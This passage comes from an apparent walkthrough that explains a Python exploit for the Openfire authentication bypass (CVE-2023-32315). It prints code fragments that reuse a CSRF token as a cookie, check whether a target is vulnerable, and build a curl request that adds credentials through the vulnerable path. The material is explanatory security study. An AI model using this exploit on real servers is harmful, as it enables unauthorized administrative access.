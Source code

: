     -   +Note+: After some quick searching I am right it's possible to access other unintended endpoints as outlined in this great article.
        -   <https://vulncheck.com/blog/openfire-cve-2023-32315>

    Finally, the headers dictionary includes standard HTTP headers along with the `csrf_token` again, set as a cookie used to mimic a legitimate session and bypass CSRF protections



-  `check_vuln`:

    The following logic is used to check if the target is valid, perform the exploit &amp; then verify if the exploit has been successful.

    ```python
        check_vuln = requests.get(target_url, headers=headers, verify=False).status_code
        if check_vuln == 200:
            color.print("[green][+][/green] Target is vulnerable")
            color.print("[blue][*][/blue] Adding credentials")

    ```

    The variable `check_vuln` uses the `requests` library to send a `GET` request to the `target_url` along with the `headers` dictionary (containing the previously extracted `csrf` token). It sets `verify=False` to skip the SSL certificate validation (this is most likely done as instances of OpenFire will be running internally with self signed certs and will fail SSL validation)

    The status code is returned back `.status_code` &amp; checked if it is equal `==` to `200` (meaning it was successful) it will print out that the target is vulnerable &amp; move onto the next part of the logic, adding credentials.



-  `add_credentials_cmd`:

    This logic is for adding the credentials to the target.

    ```python
            add_credentials_cmd = f"curl -I -X GET '{target_url}{vuln_path}' " \
                    "-H 'Accept-Encoding: gzip, deflate' " \
                    "-H 'Accept: */*' " \
                    "-H 'Accept-Language: en-US;q=0.9,en;q=0.8' " \
                    "-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36' " \
                    "-H 'Connection: close' " \
                    "-H 'Cache-Control: max-age=0' " \
                   f"-H 'Cookie: csrf={csrf_token}'"
    ```

    First a multi-line string is declared which consists of a standard `GET` (in a way&#x2026;keep reading) request using `curl`. We are using the `-I` flag to actually turn this `GET` request into a `HEAD` request.

    From the `curl` man pages.

    ```quote
    -I, --head
                  (HTTP  FTP FILE) Fetch the headers only. HTTP-servers feature the command HEAD which this uses
                  to get nothing but the header of a document. When used on an FTP or FILE  URL,  curl  displays
                  the file size and last modification time only.
    ```
